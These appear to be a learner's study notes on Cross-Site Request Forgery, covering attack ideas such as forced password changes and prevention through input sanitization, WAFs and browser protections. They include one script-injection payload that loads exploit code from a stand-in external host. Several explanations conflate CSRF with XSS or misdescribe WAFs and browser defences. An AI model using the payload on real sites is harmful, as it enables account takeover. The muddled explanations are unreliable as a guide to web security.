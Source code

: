 ```yaml
---
title: 'Cross-Site Request Forgery (CSRF):'
updated: 2023-07-17T10:27:39.0000000+01:00
created: 2023-07-16T10:03:20.0000000+01:00
---
```


Introduction:

The third main type of front end vulnerabilities is caused by **unfiltered user input** is called **Cross-Site Request Forgery** (CSRF). CSRF attacks may use XSS vulnerabilities to perform queries and use API calls on a web app that the victim is currently authenticated to.

This enables the attacker to perform actions as the authenticated user, CSRF also can use other vulnerabilities to perform the same function, like using HTTP parameters for attacks.

Common CSRF Ideas:

A common CSTF attack is an attack that is used to try and gain higher privilege access via a JS payload that automatically changes the victims password to whatever the attacker wants. Once the Victim vies the payload on the vulnerable page (e.g. a malicious comment that has the JS CSRF payload).

*The JS would **automatically execute** and use the victim's logged-in session to change their password, then the attacker can sweep in and compromise the account.*

Another common attacking idea with CSRF, is to target **admin accounts** or employee accounts. Since they usually have more sensitive functions which can be a potential vector to take control of parts of the back end. So instead of returning a session cookie we could inject a JS file:

**"\>\<script src=//www.example.com/exploit.js\>\</script\>**

Complexities:

However actually developing an exploit in JavaScript to change passwords requires understanding of the web app's password changing procedure and API usage. So creating a JS payload to give you this functionality is not easy.

Adage:

Honestly, it seems like either rushed/incompetent developers are generally the route of most security holes in especially CSRFs, but in security as a whole - as long as companies continue to give strict deadlines and mistakes are made by developers - more and more automated systems are going to be put in place that will by eventually bypassed.
Prevention:

***There should always be consideration from developers to filter/sanitize user input on the front end.***

e.g. we need to apply these two techniques:

1.  **Sanitization** involves stripping special characters and non-standard characters before storing them.
2.  **Validation** involves parsing user input and ensuring that the input matches the expected format.
    1.  So making sure an @ symbol is in an email field for a form.

We also need to sanitize what we display to users, in the event that an attacker manages to bypass the front and back end filters, so that no sensitive info is displayed on the front end.

Solutions:

Once we have sanitized/validated user input and displayed output, we can prevent **HTML injection, XSS, CSRFs.** Another method of preventing these attacks is to use a WAF (web application firewall).

A WAF helps prevent injection attempts automatically via inspecting HTTP traffic and blocking traffic it deems malicious. WAFs are normally used to prevent credit card fraud.

WAFs are not perfect and can still be bypassed - so developers should follow best practices and not over rely on web application firewalls.

Finally, modern browsers have built in anti-CSRF measures, which prevent automatic execution of JavaScript - of which are implemented using http headers and flags that stop automated requests.

(**Anti-CSRF** tokens or **http-only/X-XSS-Protection**, etc.)

However, all of these methods can still be bypassed and CSRFs still pose a large security vulnerability.

[CSRF cheatsheet OWASP](https://cheatsheetseries.owasp.org/cheatsheets/Cross-Site_Request_Forgery_Prevention_Cheat_Sheet.html)
